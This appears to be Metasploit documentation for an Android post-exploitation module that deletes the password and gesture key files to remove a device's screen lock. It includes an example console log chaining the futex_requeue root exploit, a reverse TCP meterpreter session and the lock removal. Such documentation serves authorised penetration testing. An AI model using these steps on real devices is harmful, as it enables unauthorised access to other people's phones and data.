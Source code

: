 ## Description

  This module removes the screen lock data files to remove the unlock mechanism.  If the device
  still has a lock, the password will be blank.

  The file which are removed:

  * /data/system/password.key
  * /data/system/gesture.key

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/manage/remove_lock_root```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should be able to unlock the device without a password or gesture.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf exploit(android/local/futex_requeue) > use post/android/manage/remove_lock_root
msf post(android/manage/remove_lock_root) > set session 4
session => 4
msf post(android/manage/remove_lock_root) > run

[!] SESSION may not be compatible with this module.
[*] Removing /data/system/password.key
[*] Removing /data/system/gesture.key
[*] Device should be unlocked or no longer require a pin
[*] Post module execution completed
```
